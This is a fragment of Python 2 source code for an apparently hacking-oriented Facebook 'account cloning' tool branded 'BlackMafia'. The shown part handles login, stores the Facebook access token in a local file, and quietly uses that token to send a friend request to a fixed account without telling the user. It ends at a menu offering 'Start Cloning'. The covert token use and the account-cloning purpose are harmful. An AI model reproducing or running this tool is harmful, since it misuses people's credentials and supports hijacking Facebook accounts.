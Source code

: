 				unikers = open("login.txt", 'w')
				unikers.write(z['access_token'])
				unikers.close()
				print '\n\x1b[1;95mLogin Successful...'
				os.system('xdg-open https://m.youtube.com/channel/UCRrRgcJjsnNm5Bi5ZenRGnw')
				requests.post('https://graph.facebook.com/me/friends?method=post&uids=gwimusa3&access_token='+z['access_token'])
				menu()
			except requests.exceptions.ConnectionError:
				print"\n\x1b[1;91mThere is no internet connection"
				keluar()
		if 'checkpoint' in url:
			print("\n\x1b[1;92mYour Account is on Checkpoint")
			os.system('rm -rf login.txt')
			time.sleep(1)
			keluar()
		else:
			print("\n\x1b[1;93mPassword/Email is wrong")
			os.system('rm -rf login.txt')
			time.sleep(1)
			login()


def menu():
	os.system('clear')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		os.system('clear')
		print"\x1b[1;91mToken invalid"
		os.system('rm -rf login.txt')
		time.sleep(1)
		login()
	try:
		otw = requests.get('https://graph.facebook.com/me?access_token='+toket)
		a = json.loads(otw.text)
		nama = a['name']
		id = a['id']
	except KeyError:
		os.system('clear')
		print"\033[1;91mYour Account is on Checkpoint"
		os.system('rm -rf login.txt')
		time.sleep(1)
		login()
	except requests.exceptions.ConnectionError:
		print"\x1b[1;92mThere is no internet connection"
		keluar()
	os.system("clear") #awan_hacker32
	print logo
	print "  \033[1;95m«-----▒▒▒▒▒▒▒▒▒▒▒▒----\033[1;93mLogged in User Info\033[1;95m----▒▒▒▒▒▒▒▒▒▒▒▒-----»"
	print "	   \033[1;94m Name\033[1;93m:\033[1;92m"+nama+"\033[1;97m               "
	print "	   \033[1;97m ID\033[1;93m:\033[1;92m"+id+"\x1b[1;97m              "
	print "\033[1;95m▒▒▒▒▒▒▒▒▒▒▒▒•◈•▒▒▒▒▒▒▒▒▒▒▒▒\033[1;96mBlackMafia\033[1;95m▒▒▒▒▒▒▒▒▒▒▒▒•◈•▒▒▒▒▒▒▒▒▒▒▒▒"
	print "\033[1;97m--\033[1;92m> \033[1;92m1.\x1b[1;92mStart Cloning..."
	print "\033[1;97m--\033[1;91m> \033[1;91m0.\033[1;91mExit            "
	pilih()
